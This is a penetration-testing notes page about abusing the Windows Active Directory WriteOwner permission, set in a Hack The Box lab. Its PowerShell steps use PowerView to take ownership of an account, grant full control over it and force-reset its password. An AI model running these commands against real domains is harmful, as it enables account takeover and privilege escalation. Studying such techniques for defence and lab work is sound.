

repository: amandaguglieri/hackinglife · page: windows-writeowner-permission/index.html · generator: mkdocs

---
title: Windows - Abusing WriteOwner permission
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - windows
  - writeowner
---
# Windows - Abusing WriteOwner permission

The **WriteOwner** permission allows users to change an object’s owner. Attackers can exploit this to gain control and perform malicious actions.

## WriteOwner on a User Account

The attacker has **WriteOwner permissions** on a target user account. See the "Hack The Box machine EscapeTwo".

![[write-owner.png]]

**Set-DomainObjectOwner** to assign ownership, followed by **Add-DomainObjectAcl** to grant full permissions on the target object.

```powershell
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'ca_svc' -OwnerIdentity 'ryan'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "ca_svc" -PrincipalIdentity "ryan"
```

Validate the results:

```powershell
Get-DomainUser | Where-Object { $_.Name -like "*ryan*" } | Select-Object Name, Objectsid


Get-DomainObjectAcl -Identity 'CA_SVC' | Where-Object { $_.ActiveDirectoryRights -eq 'GenericAll' }
```


Once a user has been granted full control over a target, they can perform actions such as kerberoasting or change the password without knowing the target’s current password (ForceChangePassword).


**Reset User Password**

Using the **PowerView** module, an attacker can reset a domain user’s password. This can be performed with the Set-DomainUserPassword cmdlet, allowing control over a targeted account.

```
$NewPassword = ConvertTo-SecureString 'Lala123' -AsPlainText -Force
Set-DomainUserPassword -Identity 'ca_svc' -AccountPassword $NewPassword
```


Another way, in case Set-DomainUserPassword does not do the trick:

```
$NewPassword = ConvertTo-SecureString 'WhoKnows123!' -AsPlainText -Force 
Set-ADAccountPassword -Identity 'ca_svc'  -NewPassword $NewPassword -Reset
```
